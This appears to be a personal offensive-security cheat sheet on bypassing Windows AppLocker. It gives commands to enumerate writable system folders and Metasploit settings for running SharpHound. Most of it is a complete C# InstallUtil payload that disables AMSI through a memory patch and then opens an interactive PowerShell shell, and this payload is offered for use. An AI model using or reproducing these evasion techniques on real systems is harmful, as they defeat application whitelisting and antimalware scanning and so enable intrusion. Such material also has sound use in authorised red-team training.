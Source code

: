 # AppLocker CockBlocker

- Bascially makes life a pain in the ass by preventing execution of your favourite executables unless they are in whitelisted location

Reference: (https://juggernaut-sec.com/applocker-bypass/)

## Checking if AppLocker is live

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## Check if Default World-Writeable Folders are well Writable for your User

Compile the following into a txt file

```
C:\Windows\Tasks 

C:\Windows\Temp 

C:\windows\tracing

C:\Windows\Registration\CRMLog

C:\Windows\System32\FxsTmp

C:\Windows\System32\com\dmp

C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\System32\spool\PRINTERS

C:\Windows\System32\spool\SERVERS

C:\Windows\System32\spool\drivers\color

C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\System32\Tasks_Migrated

C:\Windows\SysWOW64\FxsTmp

C:\Windows\SysWOW64\com\dmp

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

Then on a cmd prompt, run the following script to see which folders you have Write perms

```cmd
for /F %A in (C:\temp\icacls.txt) do ( cmd.exe /c icacls "%~A" 2>nul | findstr /i "(F) (M) (W) (R,W) (RX,WD) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. ) 
```

## Via ADS



##  Via God-Tier Meterpreter's Post Exploit Module Execute dotnet Assembly

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/execute_dotnet_assembly.md

```
set SESSION 1

set DOTNET_EXEC <path to the exe you want executed>

set ARGUMENTS <the flags and commands you will pass to the DOTNET_EXEC>

# For example, if i want to run sharphound.exe

set DOTNET_EXEC ./SharpHound.exe

set ARGUMENTS -c ALL --outputdirectory C:\Users\Public
```


## Interactive CInstaller Bypassess AMSI

- Use with InstallUtil

```powershell
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Collections.ObjectModel;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;


namespace CInstaller
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            string cmd;
            Runspace rs = RunspaceFactory.CreateRunspace();
            PowerShell ps = PowerShell.Create();
            rs.Open();
            ps.Runspace = rs;

            // disable amsi
            ps.AddScript(@"$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "" * iUtils"") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "" * Context"") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)");
            ps.Invoke();

            while (true)
            {
                Console.Write("PS " + Directory.GetCurrentDirectory() + ">");
                Stream inputStream = Console.OpenStandardInput();

                cmd = Console.ReadLine();

                if (String.Equals(cmd, "exit"))
                    break;

                Pipeline pipeline = rs.CreatePipeline();
                pipeline.Commands.AddScript(cmd);

                pipeline.Commands.Add("Out-String");

                try
                {
                    Collection<PSObject> results = pipeline.Invoke();
                    StringBuilder stringBuilder = new StringBuilder();

                    foreach (PSObject obj in results)
                    {
                        stringBuilder.Append(obj);
                    }

                    Console.WriteLine(stringBuilder.ToString().Trim());
                }
                catch (Exception e)
                {
                    Console.WriteLine(e.ToString());
                }


            }

            rs.Close();
        }
    }

}
```